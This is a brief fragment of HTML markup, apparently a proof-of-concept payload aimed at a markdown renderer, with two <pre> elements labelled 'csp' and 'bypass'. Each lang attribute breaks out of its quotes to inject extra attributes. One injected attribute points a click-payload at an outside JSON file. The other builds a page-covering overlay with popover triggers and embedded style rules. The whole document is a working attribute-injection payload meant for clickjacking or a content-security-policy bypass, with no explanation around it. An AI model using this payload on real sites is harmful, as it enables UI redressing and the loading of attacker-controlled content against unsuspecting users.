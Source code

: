 <a>
  <pre lang='/" data-hydro-click-payload="https://raw.githubusercontent.com/smartaptlimited/new/main/aaa.json"'>
    <code lang="wavedrom">csp</code>
  </pre>
  <pre lang='/" id="stage1" style="position:absolute;max-width:10000px;left:-1000px;top:-1000px;width:10000px;height:10000px;z-index:10000;" data-triggers="click" data-toggle="popover" data-html="true" data-title="aaa&lt;style&gt;#stage1{pointer-events:none}svg.chevron-right{position:absolute;max-width:10000px;left:-1000px;top:-1000px !important;width:10000px;height:10000px;z-index:10001;}&lt;/style&gt;bbb" data-content="ggg">
    <code lang="wavedrom">bypass</code>
  </pre>
</a>

